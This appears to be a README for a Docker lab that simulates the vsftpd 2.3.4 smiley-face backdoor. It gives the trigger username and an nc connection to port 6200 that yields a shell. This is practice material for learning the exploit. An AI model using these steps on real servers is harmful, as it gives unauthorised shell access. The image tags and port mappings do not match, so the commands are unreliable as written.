 # VSFTPD Backdoor Container

This project implements a simulated VSFTPD server that allows the 2.3.4/5 backdoor vulnerability to be exploited.

## Hosting

This assumes you have a working docker install

build with `sudo docker build -t vsftpd:latest .`

then run `docker run -p 2121:21 -p 6200:6200 vulnerable-vsftpd:2.3.4`

## Exploit

1. Connect to the server with an ftp client, e.g. `ftp localhost 21`
2. Provide a smiley face in the username, e.g. `user:)`
3. Provide any password
4. In a new terminal, initiate a connection to port 6200: `nc localhost 6200`
5. Congrats, shell achieved!